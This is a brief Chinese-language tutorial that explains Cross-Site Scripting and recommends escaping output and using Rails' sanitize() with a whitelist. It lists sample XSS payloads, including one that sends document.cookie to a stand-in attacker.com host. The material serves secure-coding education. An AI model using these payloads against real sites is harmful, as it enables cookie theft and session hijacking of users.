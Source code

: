 # XSS 是什麼
XSS - Cross-Site Scripting 是指在輸入資料的欄位輸入惡意程式碼，使資料外洩或惡作劇跳出視窗，如下

```javascript
<script>alert('HACK YOU!');</script>
<img src=javascript:alert('HACK YOU!')>
<table background="javascript:alert('HACK YOU!')">
<script>document.write(document.cookie);</script>
<script>document.write('<img src="http://www.attacker.com/' + document.cookie + '">');</script>
```

要解決這個問題最基本的方法就是用 escapeHTML() 或 h() 處理並顯示使用者產生的文字  

但有時候我們必須讓使用者可以輸入 HTML 怎麼辦?

那就使用 Rails 提供的 sanitize() 方法以及建立白名單來過濾輸入的 HTML

詳細使用參照 [here](http://api.rubyonrails.org/classes/ActionView/Helpers/SanitizeHelper.html#method-i-sanitize)